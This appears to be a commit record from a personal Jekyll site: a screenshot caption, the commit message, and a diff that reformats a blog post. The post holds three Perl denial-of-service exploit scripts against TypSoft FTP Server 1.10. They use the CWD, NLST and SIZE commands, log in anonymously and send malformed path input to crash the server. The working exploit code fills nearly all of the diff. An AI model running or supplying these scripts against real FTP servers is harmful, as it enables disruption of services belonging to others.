

Before and after one commit to Th3R3g3nt/th3r3g3nt.github.io, a Jekyll site: the page built from _posts/2012-02-07-TypSoft-FTP-DoS.md, in a window 1280 px wide and 1400 px high, scrolled down 924 px. Shown: the whole window at 93% size, without its empty margins (160-1146 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2012-02-07-TypSoft-FTP-DoS.md

```diff
--- a/_posts/2012-02-07-TypSoft-FTP-DoS.md
+++ b/_posts/2012-02-07-TypSoft-FTP-DoS.md
@@ -20,30 +20,32 @@
 
 **CWD Variant**
 {% highlight perl %}
-\>##################################################
-\#!/usr/bin/perl
-\# Exploit Title: Typsoft FTP Server DoS CWD command
-\# Date: 02/06/2012
-\# Author: Balazs Makany
-\# Software Link: http://sourceforge.net/projects/ftpserv/
-\# Version: 1.10
-\# Tested on: Windows 7
-\# (does not work on Windows XP)
-\#
-\# Please note, that you need to have a valid username/password to execute the malformed command on the server. The server comes with an enabled by default Anonymous account, which is used below.
-\#
+
+#!/usr/bin/perl
+# Exploit Title: Typsoft FTP Server DoS CWD command
+# Date: 02/06/2012
+# Author: Balazs Makany
+# Software Link: http://sourceforge.net/projects/ftpserv/
+# Version: 1.10
+# Tested on: Windows 7
+# (does not work on Windows XP)
+#
+# Please note, that you need to have a valid username/password
+# to execute the malformed command on the server. The server comes
+# with an enabled by default Anonymous account, which is used below.
+
 
 use IO::Socket;
 
-$user = ""USER anonymous\r\n"";
-$passw = ""PASS anonymous@127.0.0.1\r\n"";
-$command = ""CWD "";
-$dos_input = "".""x250;
-$send = ""\r\n"";
+$user = "USER anonymous\r\n";
+$passw = "PASS anonymous@127.0.0.1\r\n";
+$command = "CWD ";
+$dos_input = "."x250;
+$send = "\r\n";
 $socket = IO::Socket::INET-&gt;new(
-Proto => ""tcp"",
-PeerAddr => ""$ARGV[0]"",
-PeerPort => ""$ARGV[1]"",
+Proto => "tcp",
+PeerAddr => "$ARGV[0]",
+PeerPort => "$ARGV[1]",
 );
 
 $socket->recv($serverdata, 1024);
@@ -58,71 +60,85 @@
 {% endhighlight %}
 
 **NLST Variant**
->#!/usr/bin/perl
-># Exploit Title: Typsoft FTP Server DoS NLST command
-># Date: 02/06/2012
-># Author: Balazs Makany
-># Software Link: http://sourceforge.net/projects/ftpserv/
-># Version: 1.10
-># Tested on: Windows 7
-># (does not work on Windows XP)
->#
-># Please note, that you need to have a valid username/password to execute the malformed command on the server. The server comes with an enabled by default Anonymous account, which is used below.
->#
->
->use IO::Socket;
->
-$user = ""USER anonymous\r\n"";
-$passw = ""PASS anonymous@127.0.0.1\r\n"";
-$command = ""NLST "";
-$dos_input = ""/.../.../.../.../.../"";
-$send = ""\r\n"";
+
+{% highlight perl %}
+
+#!/usr/bin/perl
+# Exploit Title: Typsoft FTP Server DoS NLST command
+# Date: 02/06/2012
+# Author: Balazs Makany
+# Software Link: http://sourceforge.net/projects/ftpserv/
+# Version: 1.10
+# Tested on: Windows 7
+# (does not work on Windows XP)
+#
+# Please note, that you need to have a valid username/password
+# to execute the malformed command on the server. The server comes
+# with an enabled by default Anonymous account, which is used below.
+
+
+use IO::Socket;
+
+$user = "USER anonymous\r\n";
+$passw = "PASS anonymous@127.0.0.1\r\n";
+$command = "NLST ";
+$dos_input = "/.../.../.../.../.../";
+$send = "\r\n";
 $socket = IO::Socket::INET-&gt;new(
-Proto =>; ""tcp"",
-PeerAddr => ""$ARGV[0]"",
-PeerPort => ""$ARGV[1]"",
+Proto =>; "tcp",
+PeerAddr => "$ARGV[0]",
+PeerPort => "$ARGV[1]",
 );
->
+
 $socket->recv($serverdata, 1024);
 print $serverdata;
->
+
 $socket->send($user);
 $socket->recv($serverdata, 1024);
 $socket->send($passw);
 $socket->recv($serverdata, 1024);
 $socket->send($command.$dos_input.$send);
 
+{% endhighlight %}
+
 **SIZE variant**
->#!/usr/bin/perl
-># Exploit Title: Typsoft FTP Server DoS SIZE command
-># Date: 02/06/2012
-># Author: Balazs Makany
-># Software Link: http://sourceforge.net/projects/ftpserv/
-># Version: 1.10
-># Tested on: Windows 7
-># (does not work on Windows XP)
->#
-># Please note, that you need to have a valid username/password to execute the malformed command on the server. The server comes with an enabled by default Anonymous account, which is used below.
->#
->
+
+{% highlight perl %}
+
+#!/usr/bin/perl
+# Exploit Title: Typsoft FTP Server DoS SIZE command
+# Date: 02/06/2012
+# Author: Balazs Makany
+# Software Link: http://sourceforge.net/projects/ftpserv/
+# Version: 1.10
+# Tested on: Windows 7
+# (does not work on Windows XP)
+#
+# Please note, that you need to have a valid username/password
+# to execute the malformed command on the server. The server comes
+# with an enabled by default Anonymous account, which is used below.>
+
+
 use IO::Socket;
->
-$user = ""USER anonymous\r\n"";
-$passw = ""PASS anonymous@127.0.0.1\r\n"";
-$command = ""SIZE "";
-$dos_input = ""/.../.../.../.../.../"";
-$send = ""\r\n"";
+
+$user = "USER anonymous\r\n";
+$passw = "PASS anonymous@127.0.0.1\r\n";
+$command = "SIZE ";
+$dos_input = "/.../.../.../.../.../";
+$send = "\r\n";
 $socket = IO::Socket::INET-&gt;new(
-Proto =&gt; ""tcp"",
-PeerAddr =&gt; ""$ARGV[0]"",
-PeerPort =&gt; ""$ARGV[1]"",
+Proto =&gt; "tcp",
+PeerAddr =&gt; "$ARGV[0]",
+PeerPort =&gt; "$ARGV[1]",
 );
->
+
 $socket-&gt;recv($serverdata, 1024);
 print $serverdata;
->
+
 $socket-&gt;send($user);
 $socket-&gt;recv($serverdata, 1024);
 $socket-&gt;send($passw);
 $socket-&gt;recv($serverdata, 1024);
 $socket-&gt;send($command.$dos_input.$send);
+
+{% endhighlight %}
```
